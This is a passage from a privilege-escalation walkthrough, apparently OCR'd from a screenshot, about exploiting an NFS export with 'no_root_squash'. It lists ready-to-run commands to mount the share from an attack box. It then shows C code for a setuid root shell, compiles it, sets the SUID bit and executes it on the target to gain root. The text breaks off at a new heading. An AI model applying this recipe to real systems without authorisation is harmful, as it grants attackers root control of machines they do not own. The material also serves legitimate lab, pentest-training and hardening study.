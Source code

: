 
`no_root_squash` is what we want — it means **UID 0 is not mapped to nobody**, which is dangerous.

Mount the NFS Share on Your Attack Box

```
mkdir /tmp/nfs
sudo mount -o rw <target-ip>:/mnt/nfs /tmp/nfs

```

Test write acess

```
touch /tmp/nfs/testfile

```


#### Create a SUID Binary (on Your Machine)

We’ll make a simple root shell:
```sh 
cat <<EOF > /tmp/rootshell.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0);
    setgid(0);
    system("/bin/bash");
    return 0;
}
EOF

gcc /tmp/rootshell.c -o /tmp/rootshell
chmod +s /tmp/rootshell

```

This binary will give root when executed.

Copy it to the NFS Share

```
cp /tmp/rootshell /tmp/nfs/

```

On the Target Machine
```sh
ls -l /mnt/nfs/rootshell
-rwsr-xr-x 1 root root 12345 Jul  2 00:00 rootshell

```

```runit
/mnt/nfs/rootshell

```
## If You Don’t Have NFS Info Yet
